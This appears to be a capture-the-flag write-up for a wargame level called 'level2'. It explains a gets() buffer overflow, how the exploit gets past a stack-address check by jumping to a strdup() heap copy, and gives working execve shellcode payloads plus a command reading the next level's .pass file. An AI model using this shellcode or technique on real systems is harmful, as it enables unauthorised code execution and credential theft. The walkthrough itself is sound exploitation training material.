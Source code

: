 # Level2

## Code

```
#include <stdio.h>

void    p(void) {
    int buffer[16];

    fflush(stdout);
    gets(buffer);
    int ret = buffer[20];
    if ((ret & 0xb0000000) == 0xb0000000) {
        printf("(%p)\n", ret);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void) {
    p();
}
```


## Explanation

- For this level things start to get a little more complex

- This time, we don't have a function which launches a shell in the binary, so we'll have to use
    another strategy.

- Thanks to gdb and Ghidra, we saw the **main()** called a **p()** function which :
    - gets user input with **gets()**, again we know we can exploit this function to overflow the buffer
    - prints the obtained string with **puts()**
    - calls **strdup()** on the string

- Also, we determined thanks to [this site](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) that the offset from the beginning of the buffer to the return address spot in the stack was 80 bytes

- After some research, we decided our best option was to inject shellcode through user input to
    launch a shell with level3 privileges. Shell code is a set of instructions represented as a
    sequence of specific bytes which will be interpreted by the machine as instructions to execute


- So the idea is to inject our shell code inside the buffer, and then overflow the buffer with random
    characters until we reach the return address (80 bytes later) that will be popped in EIP at the end of the function
    so that the process will jump to the beginning of our string and execute our shell code. Of course, it meant that our
    shellcode needed to be less than 80 bytes. Luckily we found one of 24 bytes.

- So first we tried to give the program this payload :\
    `(python -c'print "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\xdc\xf6\xff\xbf"'; cat) | ./level2`

    24 bytes of shellcode --> 56 random bytes to reach the ret address we want to modify --> the buffer address

- Annnnnnnd not yet... Here we faced another problem, the program implements some kind of protection by checking the
    return address value doesn't start with **"b"**, which unfortunately is the case with our stack allocated buffer.
    Then, the code never gets to jump to the return address we modified since there's an **exit()** call in this condition.

- But as we were wondering why there was a call to **strdup()** at the end of the program, we understood that this would
    allow us to have a heap allocated (with malloc) copy of our string, with a much lower address in memory that wouldn't
    trigger the condition we mentioned before.

- All that was left to do was replace the last 4 bytes of the payload (the return address) with the address of the heap
    allocated string where our shell code was going to be copied by **strdup()**. We could easily get this address by setting
    a breakpoint in **gdb** right after the **strdup()** call and check the value in eax register which contains the return value
    of functions :     eax            0x804a008	         134520840

- Here's the final payload to execute a terminal with level3 privileges :\

## Exploit
```
$   (python -c'print "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\x08\xa0\x04\x08"'; cat) | ./level2

$   cat /home/user/level3/.pass
```